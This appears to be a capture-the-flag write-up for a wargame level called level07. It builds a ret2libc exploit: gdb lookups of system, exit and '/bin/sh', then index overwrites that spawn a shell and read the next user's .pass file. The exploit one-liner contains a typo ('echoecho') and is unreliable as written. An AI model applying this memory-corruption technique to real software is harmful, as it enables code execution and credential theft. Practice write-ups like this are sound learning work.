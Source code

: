 We have a way to overwrite the memory.

let's try to overwrite eip

no shellcode because env is set to 0 at begging 

(gdb) p/c 1073741938
$1 = 114 'r'
(gdb) p/c 1073741939
$2 = 115 's'
(gdb) p/c 1073741940
$3 = 116 't'
(gdb) 

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec

1073741938 => 4159090384 (0xf7e6aed0)
1073741939 => 4159040368 (0xf7e5eb70)
116 => 4160264172 (0xf7f897ec)

```sh
$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1073741939
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami 
level08
$ cat /home/users/level08/.pass
```

final command: 
```sh
$ (echo store; echo 4159090384; echo 1073741938 && echo store; echo 4159040368; echoecho store; echo 4160264172; echo 116 && echo quit; cat) | ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully

whoami
level08

cat /home/users/level08/.pass
```